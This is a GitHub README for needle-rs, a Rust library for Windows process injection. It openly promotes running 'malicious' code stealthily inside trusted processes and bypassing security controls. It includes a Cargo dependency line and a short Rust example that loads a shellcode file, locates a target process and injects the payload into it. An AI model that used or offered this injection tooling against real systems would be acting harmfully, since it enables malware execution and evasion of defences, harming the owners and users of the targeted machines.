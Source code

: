 # Rust Process Injection (Windows Only)
[Documentation](https://swiiz.github.io/needle-rs/needle/index.html) - [Apache 2.0 License](https://github.com/Swiiz/needle-rs/blob/main/LICENSE) - [Author](https://github.com/Swiiz)

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```TOML
# Cargo.toml
# ...
[dependencies]
needle = { git = "https://github.com/Swiiz/needle-rs.git", features = [ "windows" ] }
```
```RUST
use needle::{find_process, inject, Payload};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");

fn main() {
    let payload = Payload::from(SHELL_CODE);
    let process = find_process("YOUR_TARGET_PROCESS.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}
```

### If anyone is interested in implementing other platforms/methods, please feel free to contribute 👍
